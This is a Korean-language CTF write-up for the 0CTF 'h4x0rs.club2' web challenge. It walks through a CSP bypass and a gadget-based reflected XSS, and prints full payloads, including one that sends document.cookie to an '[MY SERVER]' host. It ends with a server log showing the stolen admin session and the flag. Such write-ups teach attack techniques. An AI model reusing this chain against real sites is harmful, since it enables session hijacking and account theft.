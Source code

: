 # [Web] 0ctf - h4x0rs.club2

## Description

Get document .cookie of the administartor.

h4x0rs.club

backend_www got backup at /var/www/html.tar.gz

Hint: Get open-redirect first, lead admin to the w0rld!



## Analysis & Exploit

로그인 후 Profile을 작성할 수 있는데, Response Header를 보면 다음과 같다.

```
Content-Security-Policy: default-src 'none'; img-src * data: ; script-src 'nonce-e3481660056cc8a9d7e9adbd42c0d470'; style-src 'self' 'unsafe-inline' fonts.googleapis.com; font-src 'self' fonts.gstatic.com; frame-src https://www.google.com/recaptcha/;
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block;
```

CSP가 걸려있으며, script의 경우 nonce가 적용되어 있으나 cache를 사용하지 않아(`Pragma: no-cache`) 사용이 불가능하다.

CSP를 우회하여 Redirect할 수 있는데, 스크립트는 다음과 같다.

```html
<meta http-equiv="refresh" content="0;url=[MY SERVER]">
```

이를 이용해 내 사이트로 Redirect가 가능하다.

그래서 ajax를 이용해 긁어오게 하려고 하였으나 Access-Control-Allow-Origin에 의해 실패하였으며, 코드는 아래와 같다.

```html
<script src="jquery.js"></script>
<script>
	$.ajax({
		url: "https://h4x0rs.club/",
		type: "POST",
		xhrFields: {
			withCredentials: true,
		},
		beforeSend: function(xhr) {
		},
		success: function(data,status, xhr){
			location.href="//[MY SERVER]/?"+xhr.getResponseHeader("Cookie");
		},
	});
</script>
```

다른 방법을 찾던 중 Reflected XSS를 발견하였다.

vector는 msg로써 형식은 다음과 같다.

```
https://h4x0rs.club/?msg=THIS
```

모든 페이지에서 msg를 사용하면 페이지의 소스안에 들어가는 것을 확인하였다.

이를 이용하여 스크립트를 삽입하면 되지만, Reflected xss의 경우 브라우저의 XSS 필터링을 거치기 때문에 이를 우회하거나 다른 방식으로 XSS를 일으켜야 한다.

해당 페이지는 jquery로 구축되어 있으며 구현된 소스를 기반으로 Reflected XSS를 만들 수 있었다.

```javascript
# app.js
function b() {
        x(), $(".js-user").append($("#audiences").html()), $(".challenge-out-of-time").show()
        CLIENT_GAME.answer( function (correct) {
            console.log("answer",correct);
            correct ?
            ($(".out-of-time-response").hide(), $("#response-happy").show(), $.get('/game/login.php?action=upgrade&level='+(LEVEL+1)) , setTimeout(()=>{alert('Congratz!');location.reload()},2000))
            : ($(".out-of-time-response").hide(), $("#response-sad").show(), setTimeout(()=>{alert('Sad :(');location.reload()},2000));
        }, $('#answer').val().trim().replace(/\b\w/g, l => l.toUpperCase()) );
    }
function T() {
        function e(e) {
            var t = Date.parse(e) - Date.parse(new Date),
                n = Math.floor(t / 1e3 % 60);
            return {
                total: t,
                minutes: Math.floor(t / 1e3 / 60 % 60),
                seconds: n
            }
        }
        y(), q === P.PAUSED && p(), q = P.ACTIVE, g();
        var t = $("#timer .minutes").text(),
            n = $("#timer .seconds").text(),
            i = new Date(Date.parse(new Date) + 1 * t * 60 * 1e3 + 1 * n * 1e3);
        t >= 60 && i.setSeconds(i.getSeconds() - 1),
            function(t, n) {
                function i() {
                    var t = e(n);

                    s.innerHTML = ("0" + t.minutes).slice(-2), a.innerHTML = ("0" + t.seconds).slice(-2), t.total <= 0 && (window.clearInterval(u), b())
                }
                r(), $(".workoutman--animated").show(), $(".workoutman--still").hide();
                var o = document.getElementById(t),
                    s = o.querySelector(".minutes"),
                    a = o.querySelector(".seconds");
                i();
                var u = setInterval(i, 1e3);

                O.push(u)
            }("timer", i)
    }
function o() {
        q === P.PAUSED ? T() : l(function() {
            T()
        }), h(), p()
    }
$(document).ready(function() {
        $("#easy").addClass("selected"), $('a[href="#"]').click(function(e) {
            e.preventDefault()
        }), $(".js-difficulty").click(function() {
            $(".js-difficulty").removeClass("selected"), $(this).addClass("selected"), L = $(this).data("difficulty"), u(L)
        }), $(".js-pause-button").click(function() {
            c(), q === P.PAUSED ? o() : (q = P.PAUSED, c())
        }), $(".js-stop-button").click(function() {
            f(), q = P.STOPPED
        }), $(".js-info-button").click(function() {
            w(), $(".js-info-button").hasClass("selected") && y()
        }), $(".selectable").click(function() {
            $(this).toggleClass("selected")
        }), $(".timer__button").click(function() {
            var e = void 0;
            e = "decrease" == $(this).data("stepper-direction") ? -5 : 5;
            var t = $(".timer .minutes"),
                n = parseInt(t.text(), 10),
                r = n + e;
            r <= 5 || r >= 60 ? $(this).attr("disabled", !0).addClass("button--disabled") : $(".timer__button").attr("disabled", !1).removeClass("button--disabled");
            var i = void 0;
            i = r >= 5 && r <= 60 ? r.toString() : n.toString(), i < 10 && (i = "0" + i), t.text(i)
        }), $(".js-start-button").click(function() {
            o()
        }), $("#reload-button").click(function() {
            u(localStorage.getItem("difficulty"))
        })
    })
```

페이지 로드 시 불러오는 javascript 중 app.js내의 b 함수를 class가 js-user인 값에 id가 audiences인 값의 내용을 넣는다.

트리거를 위해선 js-start-button을 클릭하면 o() -> T() -> b()가 순서대로 실행되어 스크립트를 실행할 수 있으며 쿼리는 다음과 같다.

```html
<script class="js-user"></script><div id="audiences">alert(1);</div>
```

이를 삽입하여 js-start-button을 누르면 게임 시작 후 10초 뒤에 alert(1);이 실행된다.

하지만 이는 버튼을 눌러야만 발동을 하므로 자동으로 실행되게끔 해야한다.

페이지 로드시 불러오는 client.js를 이용해 트리거시킬 수 있었다.

```javascript
# client.js
$( document ).ready(function() {
    CLIENT_GAME.init();
    $('#play-stop-btn').hide();
    var p = setInterval(function(){
        if(CLIENT_GAME.ready == true) (clearInterval(p), $('#play-stop-btn').show());
    },500)
;    setTimeout(function(){$('.js-difficulty').children().click();},1000);
});
```

client.js가 로드되면 js-difficulty의 하위를 클릭하는데 이를 이용해 리플렉이 자동으로 실행되도록 만들었다.

페이로드는 다음과 같다.

```html
<div class="button button--small button--blue js-difficulty d-flex justify-content-center align-items-center button js-start-button grow button--green d-flex justify-content-center align-items-center"><i class="icon ion-play"></i></div><script class="js-user"></script><div id="audiences">alert(1);</div>
```

이를 이용하면 페이지 로드 시 자동으로 게임이 실행되지만, 10초 후에 스크립트가 실행되기 때문에 봇이 따라가지 못하는 것 같다.

```javascript
# app.js
function T() {
        function e(e) {
            var t = Date.parse(e) - Date.parse(new Date),
                n = Math.floor(t / 1e3 % 60);
            return {
                total: t,
                minutes: Math.floor(t / 1e3 / 60 % 60),
                seconds: n
            }
        }
        y(), q === P.PAUSED && p(), q = P.ACTIVE, g();
        var t = $("#timer .minutes").text(),
            n = $("#timer .seconds").text(),
            i = new Date(Date.parse(new Date) + 1 * t * 60 * 1e3 + 1 * n * 1e3);
        t >= 60 && i.setSeconds(i.getSeconds() - 1),
            function(t, n) {
                function i() {
                    var t = e(n);

                    s.innerHTML = ("0" + t.minutes).slice(-2), a.innerHTML = ("0" + t.seconds).slice(-2), t.total <= 0 && (window.clearInterval(u), b())
                }
                r(), $(".workoutman--animated").show(), $(".workoutman--still").hide();
                var o = document.getElementById(t),
                    s = o.querySelector(".minutes"),
                    a = o.querySelector(".seconds");
                i();
                var u = setInterval(i, 1e3);

                O.push(u)
            }("timer", i)
    }
```

그래서 10초가 아닌 즉시 스크립트가 실행되도록 변경하는 스크립트를 추가하였으며, 최종적으로 만들어진 쿼리는 다음과 같다.

```html
<div class="timer d-flex p mb-3 flex-md-row grow align-items-stretch" id="timer"><div class="timer__display screen d-flex justify-content-center"><div class="align-self-center font-weight-fat"><span class="minutes">00</span> <span class="colon"></span> <span class="seconds">10e-3</span></div></div></div><div class="button button--small button--blue js-difficulty d-flex justify-content-center align-items-center button js-start-button grow button--green d-flex justify-content-center align-items-center"><i class="icon ion-play"></i></div><script class="js-user"></script><div id="audiences">location.href="http://[MY SERVER]/"+document.cookie;</div>
```

이를 이용하여 admin의 쿠키를 탈취할 수 있었고, 플래그를 얻을 수 있었다.

```
203.205.141.123 - - [04/Apr/2018 05:27:13] code 404, message File not found
203.205.141.123 - - [04/Apr/2018 05:27:13] "GET /PHPSESSID=0v33rcqo1qfrei9qpc080nm851;%20flag=flag%7Bpostman_1n_the_middl3%7D HTTP/1.1" 404 -
```



**flag{postman_1n_the_middl3}**


